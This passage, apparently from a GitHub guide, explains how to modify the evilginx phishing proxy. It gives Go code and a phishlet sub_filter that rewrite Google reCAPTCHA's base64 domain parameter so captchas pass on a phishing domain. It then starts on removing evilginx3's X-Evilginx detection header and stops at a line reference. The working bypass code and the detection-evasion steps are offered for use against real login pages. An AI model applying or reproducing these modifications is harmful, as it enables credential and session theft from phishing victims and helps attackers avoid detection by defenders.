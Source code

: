 ```
re, err := regexp.Compile(d)
```

### Google Recaptcha Bypass : Method-1 (
- Google recaptcha encodes domain in base64 and includes it in `co` parameter in GET request.
- For Example in safe-domain (Demo) Login.
  ```
  https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LePlpgbAAAAAPlPfzzXnJ1lrMTqRWgouzDcSd3b&co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz&hl=en&v=vP4jQKq0YJFzU6e21-BGy3GP&size=invisible&cb=knko72z68i8y
- Here the parameter `co` contains string `co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz` which is the base64 encoding of `https://accounts.safe-domain.com:443`
- In case if we use MITM in between with the mitm domain `fake-domain.com`, the value for the `co` parameter will be set to `https://accounts.fake-domain.com:443` encoded in base64 `aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg`  which is not a valid domain , So we need to modify this parameter value to the original domain `https://accounts.safe-domain.com:443` base64 encoded `aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz`

- Here is the work around code to implement this. Replace the code in evilginx2 `core/http_proxy.go` line 409
```
				// patch GET query params with original domains & bypass recaptcha
				if pl != nil {
					qs := req.URL.Query()
					if len(qs) > 0 {
						for gp := range qs {
							for i, v := range qs[gp] {
								qs[gp][i] = string(p.patchUrls(pl, []byte(v), CONVERT_TO_ORIGINAL_URLS))
							if qs[gp][i] == "aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg" { // https://accounts.fake-domain.com:443
								qs[gp][i] = "aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz" // https://accounts.safe-domain.com:443
							}
							}
						}
						req.URL.RawQuery = qs.Encode()
					}
				}
```
### Google Recaptcha Bypass : Method-2
- This method works by modifying the javascript code responsible to generate the base64 string which contains the domain name.
- Subfilter can be modified accordingly based on the target site.
```
proxy_hosts:
  - {phish_sub: 'gstatic', orig_sub: 'www', domain: 'gstatic.com', session: true, is_landing: false, auto_filter: true}

sub_filters:
  # Change/modify the value assigned to variable 'A' based on your target site. 
  - {triggers_on: 'www.gstatic.com', orig_sub: 'accounts', domain: 'google.com', search: 'A=si&&!d\?lX\.btoa\(y\):S\[6]\(40,l\[0],O\[l\[1]]\(24,0,8,y\),d\)', replace: 'A="aHR0cHM6Ly9hY2NvdW50cy5nb29nbGUuY29tOjQ0Mw."', mimes: ['text/javascript']}
```

### Evilginx3 Easter Egg Patch (X-Evilginx Header)
- Evilginx3 contains easter egg code which adds a `X-Evilginx` header with each request.
- This header contains the Attacker Domain name. So it can be used for detection.
- To remove the Easter egg from evilginx just remove/comment below mentioned lines from the `core/http_proxy.go` file.
```
// Line 179